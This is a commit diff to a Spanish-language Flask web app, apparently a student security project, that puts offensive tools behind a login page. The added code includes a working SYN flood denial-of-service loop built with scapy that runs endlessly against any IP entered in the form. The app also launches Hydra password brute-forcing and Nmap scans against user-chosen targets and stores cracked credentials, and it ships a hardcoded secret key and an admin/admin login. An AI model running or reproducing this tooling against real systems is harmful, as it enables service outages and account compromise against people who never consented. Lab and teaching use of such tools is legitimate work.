

Before and after one commit to vgonsie/Proyecto-ASIR2, a Flask app: page / in a window 1280 px wide. Shown: the part 21-667 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; a user stored in the database is signed in.

Commit message:
Add files via upload

```diff
--- a/flask-app/app.py
+++ b/flask-app/app.py
@@ -1,14 +1,13 @@
-from flask import Flask, render_template, request, redirect, url_for
+# app.py
+from flask import Flask, render_template, request, redirect, url_for, session
 from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
 import subprocess
 import os
 import sqlite3
 from werkzeug.security import generate_password_hash, check_password_hash
-import logging
-
-# Configurar logging detallado
-logging.basicConfig(level=logging.DEBUG)
-logger = logging.getLogger(__name__)
+import threading
+from scapy.all import IP, TCP, send
+import random
 
 app = Flask(__name__)
 app.secret_key = 'clave_secreta_aleatoria_segura'
@@ -20,14 +19,13 @@
 login_manager = LoginManager(app)
 login_manager.login_view = 'login'
 
-# Definir la clase User antes de usarla
+# Definición de clase User y usuarios simulados...
 class User(UserMixin):
     def __init__(self, id, username, password_hash):
         self.id = id
         self.username = username
         self.password_hash = password_hash
 
-# Usuarios simulados (puedes cambiar la contraseña aquí)
 users = {
     1: User(1, 'admin', generate_password_hash('admin'))
 }
@@ -36,25 +34,24 @@
 def load_user(user_id):
     return users.get(int(user_id))
 
+# Funciones auxiliares...
+
 def obtener_diccionarios():
     diccionario_dir = "/home/kali/Proyecto-ASIR2/diccionarios"
     try:
         return [f for f in os.listdir(diccionario_dir) if f.endswith(('.txt', '.lst'))]
     except FileNotFoundError:
-        logger.error("Directorio de diccionarios no encontrado")
         return ["Error: Directorio no encontrado"]
 
 # Escaneo Nmap
 def run_nmap(ip):
     try:
-        logger.debug(f"Ejecutando Nmap contra {ip}")
         command = ["nmap", "-sV", ip]
         output = subprocess.check_output(command, stderr=subprocess.STDOUT)
         result = parse_nmap_output(output.decode("utf-8"))
         guardar_resultado_nmap(result)
         return result
     except subprocess.CalledProcessError as e:
-        logger.error(f"Error al ejecutar Nmap: {e.output.decode('utf-8')}")
         return {"error": f"Error en Nmap: {e.output.decode('utf-8')}", "raw_output": e.output.decode("utf-8")}
 
 def parse_nmap_output(output):
@@ -84,15 +81,13 @@
                 })
     return data
 
-# Ataque con Hydra
+# Ataque Hydra
 def run_hydra(ip, diccionario, usuario, protocolo):
     try:
-        logger.debug(f"Ejecutando Hydra contra {ip} con diccionario {diccionario}")
         diccionario_dir = "/home/kali/Proyecto-ASIR2/diccionarios/"
         diccionario_path = os.path.join(diccionario_dir, diccionario)
 
         if not os.path.exists(diccionario_path):
-            logger.warning(f"El diccionario {diccionario_path} no existe")
             return {"error": f"El diccionario {diccionario} no existe", "raw_output": ""}
 
         command = [
@@ -110,7 +105,6 @@
         return result
 
     except subprocess.CalledProcessError as e:
-        logger.error(f"Hydra falló: {e.output.decode('utf-8')}")
         return {"error": "Hydra falló", "raw_output": e.output.decode('utf-8')}
 
 def parse_hydra_output(output):
@@ -126,57 +120,67 @@
             }
     return {"error": "No se encontraron credenciales válidas", "raw_output": output}
 
-# Guardar en SQLite
+# Guardar resultados en BD
+
 def guardar_resultado_nmap(result):
-    logger.debug(f"Intentando guardar resultado de Nmap: {result}")
     if "ports" not in result:
-        logger.warning("No hay puertos abiertos para guardar")
         return
-
     try:
         conn = sqlite3.connect(DB_PATH)
-        logger.debug("✅ Conexión exitosa a la base de datos")
         c = conn.cursor()
         for port in result["ports"]:
             c.execute('''
                 INSERT INTO nmap_resultados (ip, puerto, servicio, version)
                 VALUES (?, ?, ?, ?)
-            ''', (
-                result["host"],
-                port["port"],
-                port["service"],
-                port["version"]
-            ))
+            ''', (result["host"], port["port"], port["service"], port["version"]))
         conn.commit()
-        logger.info("✅ Datos de Nmap guardados correctamente")
         conn.close()
     except sqlite3.Error as e:
-        logger.error(f"[ERROR SQLITE - NMAP] {e}")
+        print(f"[ERROR SQLITE - NMAP] {e}")
 
 def guardar_resultado_hydra(result):
-    logger.debug(f"Intentando guardar resultado de Hydra: {result}")
     if "error" in result:
-        logger.warning("Resultado de Hydra contiene errores. No se guardará.")
         return
     try:
         conn = sqlite3.connect(DB_PATH)
-        logger.debug("✅ Conexión exitosa a la base de datos")
         c = conn.cursor()
         c.execute('''
             INSERT INTO hydra_resultados (ip, puerto, usuario, password, protocolo)
             VALUES (?, ?, ?, ?, ?)
-        ''', (
-            result["host"],
-            result["port"],
-            result["login"],
-            result["password"],
-            "ssh"
-        ))
+        ''', (result["host"], result["port"], result["login"], result["password"], "ssh"))
         conn.commit()
-        logger.info("✅ Datos de Hydra guardados correctamente")
         conn.close()
     except sqlite3.Error as e:
-        logger.error(f"[ERROR SQLITE - HYDRA] {e}")
+        print(f"[ERROR SQLITE - HYDRA] {e}")
+
+def registrar_ataque(ip, tipo_ataque):
+    try:
+        conn = sqlite3.connect(DB_PATH)
+        c = conn.cursor()
+        c.execute('''
+            INSERT INTO ataques_realizados (ip, tipo_ataque)
+            VALUES (?, ?)
+        ''', (ip, tipo_ataque))
+        conn.commit()
+        conn.close()
+    except sqlite3.Error as e:
+        print(f"[ERROR SQLITE - ATAQUE] {e}")
+
+# Ataque SYN Flood
+
+def syn_flood_attack(ip):
+    port = 80
+    while True:
+        src_port = random.randint(1024, 65535)
+        pkt = IP(dst=ip) / TCP(sport=src_port, dport=port, flags='S')
+        send(pkt, verbose=False)
+
+def start_syn_flood(ip):
+    attack_thread = threading.Thread(target=syn_flood_attack, args=(ip,))
+    attack_thread.daemon = True
+    attack_thread.start()
+
+# Rutas Flask
 
 @app.route('/login', methods=['GET', 'POST'])
 def login():
@@ -187,7 +191,6 @@
         if user and check_password_hash(user.password_hash, password):
             login_user(user)
             return redirect(url_for('index'))
-        logger.warning("Inicio de sesión fallido para usuario: {}".format(username))
         return render_template('login.html', error='Credenciales inválidas')
     return render_template('login.html')
 
@@ -202,34 +205,33 @@
 def index():
     result = None
     hydra_result = None
+    message = None
     diccionarios = obtener_diccionarios()
 
     if request.method == "POST":
         ip = request.form["ip"]
-        if 'nmap' in request.form:
-            logger.info(f"Iniciando escaneo Nmap en IP: {ip}")
+        tipo_ataque = request.form.get("tipo_ataque")
+
+        if tipo_ataque == "nmap":
             result = run_nmap(ip)
-        elif 'hydra' in request.form:
+        elif tipo_ataque == "hydra":
             diccionario = request.form["diccionario"]
-            usuario = request.form["usuario"] or "debian"
+            usuario = request.form.get("usuario", "debian")
             protocolo = request.form["protocolo"]
-            logger.info(f"Iniciando ataque Hydra en {ip} con {diccionario}, usuario {usuario}, protocolo {protocolo}")
             hydra_result = run_hydra(ip, diccionario, usuario, protocolo)
+        elif tipo_ataque == "syn_flood":
+            start_syn_flood(ip)
+            message = f"✅ Ataque SYN Flood iniciado contra {ip}"
+            registrar_ataque(ip, "syn_flood")
 
-    return render_template("index.html",
-                           username=current_user.username,
-                           result=result,
-                           hydra_result=hydra_result,
-                           diccionarios=diccionarios)
+    return render_template(
+        "index.html",
+        username=current_user.username,
+        result=result,
+        hydra_result=hydra_result,
+        message=message,
+        diccionarios=diccionarios
+    )
 
 if __name__ == "__main__":
-    # Prueba inicial de conexión a la base de datos
-    try:
-        logger.debug(f"Verificando conexión a la base de datos: {DB_PATH}")
-        conn = sqlite3.connect(DB_PATH)
-        logger.info("✅ Conexión a la base de datos verificada correctamente")
-        conn.close()
-    except Exception as e:
-        logger.error(f"❌ No se pudo conectar a la base de datos: {e}")
-
     app.run(debug=False)
--- a/flask-app/templates/index.html
+++ b/flask-app/templates/index.html
@@ -15,25 +15,36 @@
             </div>
         </header>
 
+        {% if message %}
+        <div class="message-box">{{ message }}</div>
+        {% endif %}
+
         <form method="POST">
             <label for="ip">IP de destino:</label>
             <input type="text" id="ip" name="ip" placeholder="192.168.1.1" required>
 
+            <!-- Tipo de ataque -->
             <div class="form-section">
+                <label for="tipo_ataque">Tipo de ataque:</label>
+                <select name="tipo_ataque" required>
+                    <option value="nmap">Escaneo Nmap (-sV)</option>
+                    <option value="hydra">Ataque Hydra</option>
+                    <option value="syn_flood">DoS SYN Flood</option>
+                </select>
+            </div>
+
+            <!-- Campos para Hydra -->
+            <div class="form-section" id="hydra-fields" style="display:none;">
                 <label for="diccionario">Diccionario:</label>
                 <select name="diccionario" required>
                     {% for diccionario in diccionarios %}
                         <option value="{{ diccionario }}">{{ diccionario }}</option>
                     {% endfor %}
                 </select>
-            </div>
 
-            <div class="form-section">
                 <label for="usuario">Usuario:</label>
-                <input type="text" id="usuario" name="usuario" value="debian" required>
-            </div>
+                <input type="text" name="usuario" value="debian" required>
 
-            <div class="form-section">
                 <label for="protocolo">Protocolo:</label>
                 <select name="protocolo" required>
                     <option value="ssh">SSH</option>
@@ -42,82 +53,21 @@
                 </select>
             </div>
 
+            <!-- Botones -->
             <div class="buttons">
-                <button type="submit" name="hydra" class="hydra-btn">Ejecutar Hydra</button>
-                <button type="submit" name="nmap" class="nmap-btn">Ejecutar Nmap</button>
+                <button type="submit" name="submit" class="hydra-btn">Ejecutar Ataque</button>
             </div>
         </form>
 
-        <div class="results">
-            {% if result %}
-                <div class="result-section nmap-results">
-                    <h2>🔍 Resultados de Nmap</h2>
-                    {% if result.error %}
-                        <div class="error">{{ result.error | e }}</div>
-                    {% else %}
-                        <table class="info-table">
-                            <tr><th>Host:</th><td>{{ result.host | e }}</td></tr>
-                            <tr><th>Estado:</th><td>{{ result.status | e }}</td></tr>
-                            {% if result.mac %}<tr><th>MAC:</th><td>{{ result.mac | e }}</td></tr>{% endif %}
-                        </table>
+        <!-- Scripts para mostrar campos solo si es Hydra -->
+        <script>
+            const tipoAtaque = document.querySelector("[name=tipo_ataque]");
+            const hydraFields = document.getElementById("hydra-fields");
 
-                        {% if result.ports %}
-                            <h3>📌 Puertos abiertos</h3>
-                            <table class="ports-table">
-                                <tr>
-                                    <th>Puerto</th>
-                                    <th>Estado</th>
-                                    <th>Servicio</th>
-                                    <th>Versión</th>
-                                </tr>
-                                {% for port in result.ports %}
-                                <tr>
-                                    <td>{{ port.port | e }}</td>
-                                    <td class="state-{{ port.state }}">{{ port.state | e }}</td>
-                                    <td>{{ port.service | e }}</td>
-                                    <td>{{ port.version | e }}</td>
-                                </tr>
-                                {% endfor %}
-                            </table>
-                        {% else %}
-                            <p class="no-ports">No se encontraron puertos abiertos</p>
-                        {% endif %}
-                    {% endif %}
-                    <button onclick="toggleRaw('nmap-raw')" class="toggle-btn">Mostrar/Ocultar output completo</button>
-                    <pre id="nmap-raw" class="raw-output">{{ result.raw_output | e }}</pre>
-                </div>
-            {% endif %}
-
-            {% if hydra_result %}
-                <div class="result-section hydra-results">
-                    <h2>🔑 Resultados de Hydra</h2>
-                    {% if hydra_result.error %}
-                        <div class="error">{{ hydra_result.error | e }}</div>
-                    {% else %}
-                        <table class="creds-table">
-                            <tr><th>Host:</th><td>{{ hydra_result.host | e }}</td></tr>
-                            <tr><th>Puerto:</th><td>{{ hydra_result.port | e }}</td></tr>
-                            <tr><th>Usuario:</th><td>{{ hydra_result.login | e }}</td></tr>
-                            <tr><th>Contraseña:</th><td class="password">{{ hydra_result.password | e }}</td></tr>
-                        </table>
-                    {% endif %}
-                    <button onclick="toggleRaw('hydra-raw')" class="toggle-btn">Mostrar/Ocultar output completo</button>
-                    <pre id="hydra-raw" class="raw-output">{{ hydra_result.raw_output | e }}</pre>
-                </div>
-            {% endif %}
-        </div>
+            tipoAtaque.addEventListener("change", () => {
+                hydraFields.style.display = (tipoAtaque.value === "hydra") ? "block" : "none";
+            });
+        </script>
     </div>
-
-    <script>
-        function toggleRaw(id) {
-            const element = document.getElementById(id);
-            element.style.display = element.style.display === 'none' ? 'block' : 'none';
-        }
-
-        document.addEventListener('DOMContentLoaded', function () {
-            document.getElementById('nmap-raw').style.display = 'none';
-            document.getElementById('hydra-raw').style.display = 'none';
-        });
-    </script>
 </body>
 </html>
```
Also changed, not shown: flask-app/init_db.py (+18 -2 lines).
